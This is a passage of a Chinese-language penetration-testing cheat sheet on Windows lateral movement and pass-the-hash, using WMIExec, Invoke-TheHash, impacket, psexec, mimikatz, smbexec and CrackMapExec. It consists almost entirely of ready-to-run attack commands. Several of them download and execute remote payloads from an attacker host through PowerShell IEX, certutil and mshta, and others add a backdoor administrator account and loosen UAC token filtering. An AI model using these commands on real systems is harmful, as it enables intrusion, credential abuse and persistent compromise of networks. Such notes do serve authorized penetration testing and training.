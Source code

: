 	允许本地管理组所有成员连接
	>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f  
### WMIExec & TheHash
	>powershell -ep bypass
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-WMIExec.ps1'); 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-TheHash.ps1');
	>Invoke-TheHash -Type WMIExec -Target 192.168.0.0/24 -Domain zone.com -Username godadmin -Hash f1axxxxxxxxxb771
![image](/assets/Pentest_Note/master/img/383.png)
### WMI
	>net use \\1.1.1.1\admin$ /user:"administrator" "password"
	>copy windowsupdate.exe \\1.1.1.1\admin$\dir\
	>wmic /NODE:"1.1.1.1" /user:"administrator" /password:"password" PROCESS call create "c:\windows\dir\windowsupdate.exe" 
	>del \\1.1.1.1\admin$\dir\windowsupdate.exe /F 
	>net use \\1.1.1.1\admin$ /del
#### wmiexec.py
	https://github.com/SecureAuthCorp/impacket 
	>python wmiexec.py -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09 域名/Administrator@192.168.11.1 "whoami"
	>python wmiexec.py admin@192.168.1.2
![image](/assets/Pentest_Note/master/img/384.png)
#### wmiexec.vbs
	半交互式：
	>cscript //nologo wmiexec.vbs /shell 192.168.1.2 admin pass
	单条命令
	>cscript //nologo wmiexec.vbs /cmd 192.168.1.2 domain\admin pass "whoami"
	下载执行
	>wmic /node:192.168.0.115 /user:godadmin /password:password PROCESS call create "cmd /c certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe c:/windows/temp/win.exe & c:/windows/temp/win.exe & certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe delete"
![image](/assets/Pentest_Note/master/img/385.png)
#### Powershell
	>wmic /NODE:192.168.3.108 /user:"godadmin" /password:"password" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/xxx.txt');\""
	Invoke-WMIExec
	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1a5b1a3641bec99ff92fe9df700b771 -Command \"net user admin Qwe@123 /add\" -Verbose"
![image](/assets/Pentest_Note/master/img/386.png)

	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1xxxxxxxxxxxxx771 -Command \"mshta http://192.168.0.107:8080/YAyAPN6odzbAzKn.hta\" -Verbose"
![image](/assets/Pentest_Note/master/img/387.png)
### Psexec
	>psexec.exe -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09域名/Administrator@192.168.1.1 "whoami"
	>psexec.exe –accepteula \\192.168.1.2 –u admin –p pass cmd.exe 无确认窗
	Msf
	>use exploit/windows/smb/psexec
	>use exploit/windows/smb/psexec_psh(powershell版本)
### Psexec-py
  	>python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
### Mimikatz
	Windows XP、Vista、2008、7、2008 r2 和2012没有安装KB2871997补丁的机器上，使用NTLM进行PTH
	mimikatz # privilege::debug
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm}
	执行一个文件
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm} /run:powershell.exe
	Windows 8.1 、2012 R2、安装KB2871997的Win 7 、2008 R2和2012上可使用AES KEY进行PTH
	>privilege::debug
	>sekurlsa::ekeys
	>sekurlsa::pth /user:administrator /domain:zone.com /aes128:{key}
### pth-winexe
	>pth-winexe -U godadmin%password --system --ostype=1 //192.168.0.115 cmd
![image](/assets/Pentest_Note/master/img/388.png)
### Smbexec
	>python smbexec.py administrator@192.168.0.98
![image](/assets/Pentest_Note/master/img/389.png)
### CrackMapExec
  	>cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
